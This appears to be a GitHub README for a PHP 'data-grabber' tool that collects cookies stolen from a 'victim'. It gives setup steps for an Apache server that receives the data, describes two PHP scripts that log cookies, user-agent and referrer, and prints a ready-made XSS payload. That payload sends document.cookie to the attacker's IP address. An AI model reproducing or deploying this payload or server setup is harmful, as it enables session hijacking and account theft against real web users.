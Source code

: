 # data-grabber
web data grabber in PHP

## usage
#### step1 - start web server on your own web server
```
sudo apt update && apt upgrade -y
sudo apt install apache2
sudo systemctl start apache 2
```

#### step2 
clone the repository in ``` /var/www/html/ ``` directory

#### step3
now if any cookie or data sent to your webserver by your link, it'll save in cookie file.
example of link:
```
http://192.168.1.135/p1.php?txt=your-data
```

#### Payload
here is some payload for vulnerabilities like XSS to steal cookies of your victim:
```
<script>window.location="http://192.168.1.135/wdata-grabber/p1.php?txt="+document.cookie</script>
```

### p1.php
p1.php is basic version of cookie stealer that recieve and store just value of txt parameter.

### p2.php
p2.php store more data from victim. you can store ``` date user-agent referrer ``` too.

